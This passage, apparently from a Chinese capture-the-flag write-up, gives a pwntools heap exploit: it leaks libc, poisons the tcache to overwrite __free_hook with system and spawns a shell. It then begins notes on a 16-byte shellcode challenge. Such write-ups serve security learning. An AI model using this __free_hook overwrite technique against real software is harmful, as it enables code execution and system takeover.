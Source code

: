 ```plain
show(0)
libc_base=u64(p.recvuntil('\x7f').ljust(8,'\x00'))-0x1ecbe0
leak('libc_base ',libc_base)

for i in range(10):
    add(i,0x60,'aaaa')

for i in range(9):
    delete(9-i)

delete(2)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

for i in range(5):
    add(i,0x60,'aaaa')

add(5,0x60,'/bin/sh\x00')
add(6,0x60,'aaaa')
add(7,0x60,p64(free_hook))


add(8,0x60,'aaaa')
add(9,0x60,'aaaa')
add(10,0x60,p64(system))
delete(5)
'''
'''
#duan()
p.interactive()
```

## ShellcodeMaster

### 思路 1

[![](assets/1708654729-2489046615db778319581053d6a9b03e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221104234-ddf6fbde-d062-1.png)  
16 字节的 shellcode，而且把 buf 的写入权限关了  
所以 16 字节打开权限和再次写入
